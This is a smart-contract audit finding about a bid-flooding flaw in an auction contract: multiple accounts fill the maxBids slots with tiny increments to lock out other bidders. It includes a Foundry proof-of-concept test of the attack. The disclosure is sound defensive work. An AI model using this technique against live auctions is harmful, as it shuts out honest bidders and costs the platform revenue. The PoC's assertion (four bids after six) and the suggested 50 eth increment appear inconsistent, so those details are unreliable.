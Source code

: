 Wide Cedar Orca

High

# Attacker can flood the auction with small difference bids

### Summary

In this attack, the attacker floods the auction with small, incremental bids using multiple accounts to quickly fill up the allowed bidding slots (or maxBids). The goal is not necessarily to manipulate the price but to prevent other legitimate bidders from having the chance to place a bid, thereby ensuring that the attacker controls the auction's outcome (or, at the very least, restricts competition).

### Root Cause

In [`Auction.sol:125-171`](https://github.com/sherlock-audit/2024-12-plaza-finance/blob/main/plaza-evm/src/Auction.sol#L125-171) there is no check on the difference each bid must have.

### Internal Pre-conditions

1. Auction has a maxBids limit
2. No minimum bid increment:

### External Pre-conditions

Attacker must have different accounts with enough balance to execute this attack

### Attack Path

1. Attacker bids with a low amount
2. Attacker uses different account to bid again but with very little amount (0.1 eth)
3. Attacker repeats this till the `maxBids` is reached

### Impact

1. Prevents Legitimate Participation: By flooding the auction with small bids, the attacker ensures that the maximum number of bids is reached before other participants can even attempt to bid. Legitimate bidders will be locked out of the auction entirely, unable to place their bids, no matter how much they are willing to pay.
2. Distorts Auction Competition: Even though the attacker’s bids are small and incrementally increasing, they still prevent any meaningful competition from occurring. The auction can be concluded with the attacker having full control over the outcome, which may not reflect the true market value.
3. Reduced Auction Efficiency: The auction may become inefficient if bidders feel they have no chance of competing due to the bid flooding, leading to reduced overall participation in future auctions. This undermines the auction platform's reputation and the trust users have in it.
4. Economic Loss for the Platform: If legitimate bids are excluded due to the flood of small bids, the auction might not capture its true value (i.e., the fair market value of the item being auctioned). This can result in the platform missing out on potential revenue or generating dissatisfaction from users.
5. Attacker won't loss much: Because the attacker will get refund for the other bids, the attacker will not loss that much money but rather win the auction by a very low price.

### PoC

```solidity
function testBidFloodingAttack() public {
    // Setup multiple bidder addresses
    address bidder1 = address(0x11111111);
    address bidder2 = address(0x22222222);
    address bidder3 = address(0x33333333);
    address bidder4 = address(0x44444444);
    address bidder5 = address(0x55555555);
    address legitimateBidder = address(0x44444444444);

    uint256 slot = auction.slotSize();
    
    // Give tokens to all bidders
    usdc.mint(bidder1, 1000 ether);
    usdc.mint(bidder2, 1000 ether);
    usdc.mint(bidder3, 1000 ether);
    usdc.mint(bidder4, 1000 ether);
    usdc.mint(bidder5, 1000 ether);
    usdc.mint(legitimateBidder, 1000 ether);

    // Attacker's first bid (relatively low)
    vm.startPrank(bidder1);
    usdc.approve(address(auction), 1000 ether);
    auction.bid(50 ether, slot); // Low price bid
    vm.stopPrank();

    // Attacker's second bid (slightly higher)
    vm.startPrank(bidder2);
    usdc.approve(address(auction), 1000 ether);
    auction.bid(50.1 ether, slot); // Small increment
    vm.stopPrank();

    // Attacker's third bid (slightly higher again)
    vm.startPrank(bidder3);
    usdc.approve(address(auction), 1000 ether);
    auction.bid(50.2 ether, slot); // Small increment
    vm.stopPrank();

    // Attacker's fourth bid (slightly higher again)
    vm.startPrank(bidder4);
    usdc.approve(address(auction), 1000 ether);
    auction.bid(50.3 ether, slot); // Small increment
    vm.stopPrank();

    // Attacker's fith bid (slightly higher again)
    vm.startPrank(bidder5);
    usdc.approve(address(auction), 1000 ether);
    auction.bid(50.4 ether, slot); // Small increment
    vm.stopPrank();

    // Legitimate bidder trying to participate
    vm.startPrank(legitimateBidder);
    usdc.approve(address(auction), 1000 ether);
    auction.bid(55 ether, slot); // Fair market value bid
    vm.stopPrank();

    // Assert the manipulation
    assertEq(auction.bidCount(), 4, "Should have 4 bids");
  }
```

### Mitigation

Implement a bid minimal increment to prevent this kind of attack. Example, a minimal increatment of 50 eth for each bid will mitigate this kinda of attack.